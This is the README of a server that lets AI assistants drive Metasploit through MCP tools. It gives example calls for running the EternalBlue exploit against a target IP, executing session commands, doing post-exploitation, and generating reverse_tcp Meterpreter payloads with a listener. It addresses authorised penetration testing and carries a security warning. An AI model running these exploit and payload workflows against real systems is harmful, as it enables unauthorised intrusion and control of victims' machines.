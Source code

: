 # Metasploit MCP Server

A Model Context Protocol (MCP) server for Metasploit Framework integration.

## Description

This MCP server provides a bridge between large language models like Claude and the Metasploit Framework penetration testing platform. It allows AI assistants to dynamically access and control Metasploit functionality through standardized tools, enabling a natural language interface to complex security testing workflows.

## Features

### Payload Generation and Execution

- **generate_payload**: Generate payload files using Metasploit RPC (saves files locally)
- **execute_local_program**: Execute a locally saved program (e.g., generated payloads)

### Exploitation Workflow

- **list_exploits**: Search and list available Metasploit exploit modules
- **list_payloads**: Search and list available Metasploit payload modules
- **run_exploit**: Configure and execute an exploit against a target
- **list_active_sessions**: Show current Metasploit sessions
- **send_session_command**: Run a command in an active session

### Post-Exploitation Tools

- **get_system_info**: Retrieve system information from a Meterpreter session
- **get_user_id**: Get the current user context of a session
- **list_processes**: List running processes on the target system
- **migrate_process**: Move a Meterpreter session to another process
- **filesystem_list**: List files in a directory on the target system

### Listener Management

- **list_listeners**: Show all active handlers and background jobs
- **start_listener**: Create a new multi/handler to receive connections
- **stop_job**: Terminate any running job or handler

### Auxiliary Module Support

- **run_auxiliary_module**: Run any Metasploit auxiliary module with options

## Prerequisites

- Metasploit Framework installed and msfrpcd running
- Python 3.10 or higher
- Required Python packages (see requirements.txt)

## Installation

1. Clone this repository
2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```
3. Configure environment variables (optional):
   ```
   MSF_PASSWORD=yourpassword
   MSF_SERVER=127.0.0.1
   MSF_PORT=55553
   MSF_SSL=false
   PAYLOAD_SAVE_DIR=/path/to/save/payloads  # Optional: Where to save generated payloads
   ```

## Usage

Start the Metasploit RPC service:

```bash
msfrpcd -P yourpassword -S -a 127.0.0.1 -p 55553
```

For Claude Desktop integration, configure `claude_desktop_config.json`:

```json
{
    "mcpServers": {
        "metasploit": {
            "command": "uv",
            "args": [
                "--directory",
                "C:\\path\\to\\MetasploitMCP",
                "run",
                "MetasploitMCP.py"
            ],
            "env": {
                "MSF_PASSWORD": "yourpassword"
            }
        }
    }
}
```

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", "192.168.1.100", 445)`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation

1. Get system information: `get_system_info(1)`
2. List running processes: `list_processes(1)`
3. Migrate to a more stable process: `migrate_process(1, 1234)`
4. Browse the filesystem: `filesystem_list(1, "C:\\Users")`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload("windows/meterpreter/reverse_tcp", "exe", {"LHOST": "192.168.1.10", "LPORT": 4444})`
4. Stop a handler: `stop_job(1)`

## Configuration Options

### Payload Save Directory

By default, payloads generated with `generate_payload` are saved to a `payloads` directory in your home folder (`~/payloads` or `C:\Users\YourUsername\payloads`). You can customize this location by setting the `PAYLOAD_SAVE_DIR` environment variable.

**Setting the environment variable:**

- **Windows (PowerShell)**:
  ```powershell
  $env:PAYLOAD_SAVE_DIR = "C:\custom\path\to\payloads"
  ```

- **Windows (Command Prompt)**:
  ```cmd
  set PAYLOAD_SAVE_DIR=C:\custom\path\to\payloads
  ```

- **Linux/macOS**:
  ```bash
  export PAYLOAD_SAVE_DIR=/custom/path/to/payloads
  ```

- **In Claude Desktop config**:
  ```json
  "env": {
      "MSF_PASSWORD": "yourpassword",
      "PAYLOAD_SAVE_DIR": "C:\\your\\actual\\path\\to\\payloads"  // Only add if you want to override the default
  }
  ```

**Note:** If you specify a custom path, make sure it exists or the application has permission to create it. If the path is invalid, payload generation might fail.

## License

Apache 2.0
